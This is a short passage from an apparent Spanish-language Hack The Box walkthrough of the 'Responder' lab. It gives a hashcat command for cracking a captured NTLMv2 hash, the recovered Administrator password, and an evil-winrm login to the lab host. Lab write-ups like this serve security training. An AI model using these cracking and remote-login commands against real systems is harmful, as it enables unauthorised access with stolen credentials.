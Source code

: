 El hash **NTLMv2** capturado se puede craquear utilizando **Hashcat** con el siguiente comando: `hashcat -m 5600 '<hash>' /usr/share/wordlists/rockyou.txt` 

![Responder yw4rf](../../../assets/HTB/Responder/responder-17.png)

Después de craquearlo, obtenemos las credenciales:

- **Usuario:** Administrator
- **Contraseña:** badminton

![Responder yw4rf](../../../assets/HTB/Responder/responder-18.png)

Con las credenciales, accedemos al sistema vía **WinRM** usando **Evil-WinRM**: `evil-winrm -i 10.129.28.111 -u Administrator -p badminton`

![Responder yw4rf](../../../assets/HTB/Responder/responder-19.png)
